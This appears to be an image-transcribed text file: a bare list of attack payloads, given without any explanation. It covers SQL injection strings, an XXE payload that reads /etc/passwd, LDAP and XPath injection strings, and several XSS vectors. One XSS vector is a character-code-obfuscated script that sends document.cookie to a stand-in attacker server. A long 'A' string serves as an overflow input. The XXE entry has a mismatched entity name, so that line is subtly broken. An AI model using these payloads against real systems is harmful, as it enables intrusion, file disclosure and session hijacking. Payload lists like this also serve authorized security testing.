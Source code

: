```txt
'||'6
(||6)
' OR 1=1--
OR 1=1
' OR '1'='1
; OR '1'='1'
' or 1=1--
\" or 1=1--
' or 1=1 /*
or 1=1--
' or 'a'='a
\" or \"a\"=\"a
') or ('a'='a
Admin' OR '
<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><foo>&xee;</foo>
admin*
admin*)((|userPassword=*)
*)(uid=*))(|(uid=*
*|
'+or+'1'='1
'+or+''='
x'+or+1=1+or+'x'='y
count(/child::node())
x'+or+name()='username'+or+'x'='y
<![CDATA[<script>var n=0;while(true){n++;}</script>]]>
<script>alert(0)</script>
<iframe src=javascript:alert(1)>
\"><img src=x onerror=prompt(1);>
<script>alert(1)<!–
<a onmouseover\"alert(1)\">test</a>
<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118,101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```txt


